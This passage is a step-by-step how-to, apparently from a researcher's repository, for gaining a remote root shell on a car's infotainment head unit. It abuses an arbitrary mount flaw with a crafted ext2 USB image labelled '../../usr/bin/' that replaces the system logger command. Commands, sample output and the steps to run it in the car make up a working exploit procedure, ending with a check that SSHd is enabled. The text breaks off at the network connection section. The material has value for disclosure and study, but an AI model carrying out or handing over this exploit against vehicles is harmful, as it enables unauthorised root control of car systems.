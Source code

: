 # Rootshell How-To

The main writeup goes over system overview and the whole discovery process. This is a shorter guide that should be easy to follow. 

#### Table Of Contents

- [Preparing the flash drive](#preparing-the-flash-drive)
- [Connecting via network](#connecting-via-network)
- [Testing on other models](#testing-on-other-models)

## Preparing the flash drive

As discussed in the full  writeup, to gain a remote root shell on the head unit, we can abuse the arbitrary mount vulnerability. In short, this vulnerability lets us replace certain system commands with ones of our choosing. 
To do so , we must prepare a flash drive with a special file system. Script `rootshellfs.sh` will create an `ext2` file system image of 8mb and copy `logger` script to it. The created filesystem will have it's UUID set to empty and FS label set to `../../usr/bin/` which is what we need for exploit to work. You should see something like:

```
$ ./rootshellfs.sh
8192+0 records in
8192+0 records out
8388608 bytes (8.4 MB, 8.0 MiB) copied, 0.0269391 s, 311 MB/s
mke2fs 1.45.5 (07-Jan-2020)
Discarding device blocks: done
Creating filesystem with 2048 4k blocks and 2048 inodes

Allocating group tables: done
Writing inode tables: done
Writing superblocks and filesystem accounting information: done

======================================
Rootshell file system prepared. Insert flash drive and do:
$ sudo dd if=./rootshell.ext2 of=/dev/sd#
Make sure to replace sd# with your actuall flash drive and don't overwrite your system drive!!!
```

Above will create a file called `rootshell.ext2` which must then be written to your flash drive directly (not copied to existing file system). NOTE: This will effectively erase any data that is present on the drive, so make sure it's empty. Easy way to write this image to flash drive is via `dd`, as the shell script instructs:

```
$ sudo dd if=./rootshell.ext2 of=/dev/sdb
16384+0 records in
16384+0 records out
8388608 bytes (8.4 MB, 8.0 MiB) copied, 0.0208436 s, 402 MB/s
```
That's it. The flash drive is prepared. Eject it and go to your car. 

Next step is to actually execute the exploit, which is very simple. Turn on the head unit (the car doesn't have to actually run, key in ON position). Wait till the system boots up and navigation or radio starts and simply insert the USB flash drive. 

If everything went according to plan, you should see the lcn2kai reboot after about 10 seconds. 

Make sure to unplug your usb flash drive before the system boots up again! If the whole thing worked, when you open the flash drive on your computer again (it's ext2 file system, so linux required), besides `logger` script and `lost&found` you should see a file named `it_worked` with kernel info in it:

```
$ cat /media/user/.._.._usr_bin_/it_worked
Linux (none) 2.6.34.13-02018-g843e5c6 #1 SMP PREEMPT Thu May 15 16:58:54 IST 2014 armv6l GNU/Linux
```

That really confirms that code execution has worked and that SSHd should be enabled on the car's head unit. 

## Connecting via network
